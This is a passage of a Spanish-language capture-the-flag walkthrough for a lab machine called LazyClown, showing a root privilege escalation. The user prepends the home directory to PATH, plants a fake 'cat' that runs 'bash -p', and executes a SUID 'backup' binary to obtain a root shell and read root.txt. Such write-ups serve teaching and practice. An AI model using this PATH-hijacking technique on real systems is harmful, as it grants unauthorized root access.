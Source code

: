 ```bash
mitsos@LazyClown:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
mitsos@LazyClown:~$ export PATH=/home/mitsos:$PATH
mitsos@LazyClown:~$ echo $PATH
/home/mitsos:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
mitsos@LazyClown:~$
```

Generamos nuestro archivo `cat`:

```bash
mitsos@LazyClown:~$ touch cat
mitsos@LazyClown:~$ chmod 777 cat 
mitsos@LazyClown:~$ nano cat

Error reading /home/mitsos/.nano_history: Permission denied

Press Enter to continue starting nano.

mitsos@LazyClown:~$ /bin/cat cat
bash -p
mitsos@LazyClown:~$ 
```

Ahora ejecutamos el binario `backup`:

```bash
mitsos@LazyClown:~$ ./backup 
bash-4.3# whoami
root
bash-4.3#
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).
